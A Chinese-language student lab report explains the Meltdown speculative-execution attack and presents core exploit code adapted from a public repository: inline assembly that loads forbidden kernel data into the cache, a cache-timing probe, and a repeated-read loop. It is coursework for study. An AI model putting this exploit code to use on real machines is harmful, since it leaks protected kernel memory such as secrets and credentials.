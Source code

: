 ## Lab 04 实验报告
### 一、原理分析

```assembly
; 以下代码样例摘自博客：https://paper.seebug.org/499/

; rcx = a protected kernel memory address
; rbx = address of a large array in large space

mov al, byte [ rcx ] ; read from forbidden kernel address
shl rax, 0xc  ; multiply the result from the read operation with 4096
mov rbx, qword [ rbx + rax ] ; touch the user space array at the offset that we just calculated

```

这段代码从理论上看没有任何问题，因为用户态程序在执行第一行代码时，会因为访问内核地址空间而产生异常，从而使得用户态程序既读取不到rcx所指向的内核态地址空间，也无法执行后两行代码。

虽然理论上上述代码不会产生什么问题，但由于现代CPU处理器乱序执行和预测执行的特性，代码的实际执行顺序可能与编写程序时的代码顺序有所不同。

在上述代码的实际执行过程中，第一条MOV指令除了将rcx指向的内核态地址下的数据放到al之中外，还会检查进程是否有权限访问该地址。由于这种权限检查是一个相对耗费资源的操作，因此CPU在al取到[rcx]内核数据后并不会等待权限检查结束，而是继续往后执行第二条和第三条指令。在第二条指令计算了`rax=al*4096`之后，第三条指令会以rbx为基址、`al*4096`为偏移量来获取用户态数组中的某一项数据。

在第三条指令执行时，`rbx[al*4096]`将会被加载到cache当中。因此导致攻击者之后以n（0<=n<=255）遍历数组`rbx[]`时，`rbx[al*4096]`项的加载时间将会远小于数组其他项的加载时间。通过对加载时间的分析，就可以推断出al的具体值，从而间接获得rcx所指向内核数据（byte [rcx]）的值。



 ### 二、主要代码

### 代码的meltdown攻击部分主要由三块组成

- 漏洞利用：通过内嵌汇编代码，将需要窃取的内核信息作为数组下标，将数组中相应的项加载到cache中

  ```C
  load_cache(char* addr)//将待窃取的内核地址数据load到cache中
  
  {   //此代码引用自https://github.com/paboldin/meltdown-exploit/blob/master/meltdown.c
      asm volatile (
  
          "1:\n\t"
  
          ".rept 300\n\t"
          "add $0x141, %%rax\n\t"
          ".endr\n\t"
  
          "movzx (%[addr]), %%eax\n\t"
          "shl $12, %%rax\n\t"
          "jz 1b\n\t"
          "mov (%[target], %%rax, 1), %%rbx\n"
  
          "stopspeculate: \n\t"
          "nop\n\t"
          :
          : [target] "r" (hist),
            [addr] "r" (addr)
          : "rax", "rbx"
      );
  }
  ```

  

- 数组遍历：对数组进行遍历，通过计算数组不同项的读取速度，判断数组中哪一块被调入cache中，进而判断所窃取的内核信息数值

  ```C
  int  get_value(){  //获取被攻击地址的值
      //此代码是在https://github.com/paboldin/meltdown-exploit/blob/master/meltdown.c上略作改动
      int i, time, mix_i, min_pos, min_time = MINTIME;
      volatile char *addr;
  
      for (i = 0; i < VARIANTS_READ; i++ ){//找到数组中被加载到cache中的那一块
  
          mix_i=((i * 167) + 13) & 255;
          addr = &hist[PAGESIZE * mix_i];
          time = get_access_time( addr );
  
          if (min_time > time){
              min_time = time;
              min_pos= mix_i;
          }
      }
      return min_pos;
  }
  ```

  

- 重复攻击：对同一个内核地址的信息进行多次窃取，以提升窃取成功的概率

   

  ```C
  for (int i = 0; i < CYCLES; i++ ){
              once = attack(fd, addr) ;
              score[ once ]++;
          }//对同一地址进行多次攻击，以保证结果的准确性
          value[ j ] = ensure_value( score );//认为得到次数最多的值作为被攻击地址下的确切值
          addr++;
  
  ```

  

*注：

- 本次实验时间较为紧张，将主要的时间花在了对meltdown原理的调研和对meltdown攻击代码的设计上；因此没能及时安装老版本的操作系统也没有找到在现有操作系统上关闭meltdown补丁的可行的方法，故代码测试部分并没有全部完成。
- 攻击代码主要参考自：https://github.com/paboldin/meltdown-exploit/blob/master/meltdown.c

